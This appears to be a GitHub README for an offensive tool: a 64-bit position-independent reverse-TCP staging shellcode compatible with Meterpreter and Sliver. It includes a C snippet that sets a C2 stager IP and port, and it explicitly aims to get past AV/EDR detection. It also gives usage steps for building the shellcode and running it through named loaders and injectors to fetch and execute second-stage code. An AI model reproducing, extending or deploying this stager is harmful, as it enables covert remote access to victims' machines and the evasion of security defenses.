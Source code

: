 # CelestialSpark

An modern 64-bit position independent meterpreter and Sliver compatible reverse_TCP Staging Shellcode based on Cracked5piders Stardust

```c
#include <Common.h>
#include <Constexpr.h>
#pragma comment(lib, "ws2_32.lib")

LPWSTR* arglist;
// Define IP Adress of your C2 Stager (!)
#define IP_STR  "10.10.10.10"
// Define PORT 443 of your TCP Stager
#define PORT 443
...
```

## Why
I wanted to improve my understanding of position independent Shellcode, plus... My Meterpreter reverse_TCP Stager gets caught by a lot of AV/EDRs and I was hoping to somehow get around the IoCs the 15 year old Meterpreter reverse_TCP Shellcode generated by msfvenom.
Inspirations were:
https://github.com/SherifEldeeb/TinyMet
https://github.com/rapid7/metasploit-framework/blob/master/external/source/shellcode/windows/x86/src/block/block_reverse_tcp.asm

## How does it work
- not existing HTONS and HTONL functions have been hardcoded
- custom inet_addr function was rewritten and implemented in Main.C
- Socket creation and interaction functions have been imported from ws2_32.dll
- Meterpreter Staging Logic hase been copied from the original project and TinyMet

## Usage
- Git clone
- change IP and Port in Main.c
- disable the messagebox right before the Stage2 shellcode execution (if it bothers you)
- make
- Use your favourite Shellcode Loader/Injector. I Successfully tested:
    - https://github.com/Cipher7/ChaiLdr
    - https://github.com/florylsk/ExecIT
    - https://github.com/3xpl01tc0d3r/ProcessInjection
    - the original Stardust Loader written by [Cracked5pider](https://github.com/Cracked5pider)


